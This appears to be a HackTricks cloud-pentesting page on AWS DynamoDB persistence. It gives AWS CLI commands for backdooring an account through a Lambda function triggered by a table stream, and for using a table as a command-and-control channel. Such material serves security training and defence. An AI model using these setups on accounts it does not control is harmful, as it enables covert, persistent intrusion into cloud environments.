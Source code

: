 # AWS - DynamoDB Persistence

{{#include ../../../banners/hacktricks-training.md}}

### DynamoDB

For more information access:

{{#ref}}
../aws-services/aws-dynamodb-enum.md
{{#endref}}

### DynamoDB Triggers with Lambda Backdoor

Using DynamoDB triggers, an attacker can create a **stealthy backdoor** by associating a malicious Lambda function with a table. The Lambda function can be triggered when an item is added, modified, or deleted, allowing the attacker to execute arbitrary code within the AWS account.

```bash
# Create a malicious Lambda function
aws lambda create-function \
    --function-name MaliciousFunction \
    --runtime nodejs14.x \
    --role <LAMBDA_ROLE_ARN> \
    --handler index.handler \
    --zip-file fileb://malicious_function.zip \
    --region <region>

# Associate the Lambda function with the DynamoDB table as a trigger
aws dynamodbstreams describe-stream \
    --table-name TargetTable \
    --region <region>

# Note the "StreamArn" from the output
aws lambda create-event-source-mapping \
    --function-name MaliciousFunction \
    --event-source <STREAM_ARN> \
    --region <region>
```

To maintain persistence, the attacker can create or modify items in the DynamoDB table, which will trigger the malicious Lambda function. This allows the attacker to execute code within the AWS account without direct interaction with the Lambda function.

### DynamoDB as a C2 Channel

An attacker can use a DynamoDB table as a **command and control (C2) channel** by creating items containing commands and using compromised instances or Lambda functions to fetch and execute these commands.

```bash
# Create a DynamoDB table for C2
aws dynamodb create-table \
    --table-name C2Table \
    --attribute-definitions AttributeName=CommandId,AttributeType=S \
    --key-schema AttributeName=CommandId,KeyType=HASH \
    --provisioned-throughput ReadCapacityUnits=5,WriteCapacityUnits=5 \
    --region <region>

# Insert a command into the table
aws dynamodb put-item \
    --table-name C2Table \
    --item '{"CommandId": {"S": "cmd1"}, "Command": {"S": "malicious_command"}}' \
    --region <region>
```

The compromised instances or Lambda functions can periodically check the C2 table for new commands, execute them, and optionally report the results back to the table. This allows the attacker to maintain persistence and control over the compromised resources.

{{#include ../../../banners/hacktricks-training.md}}






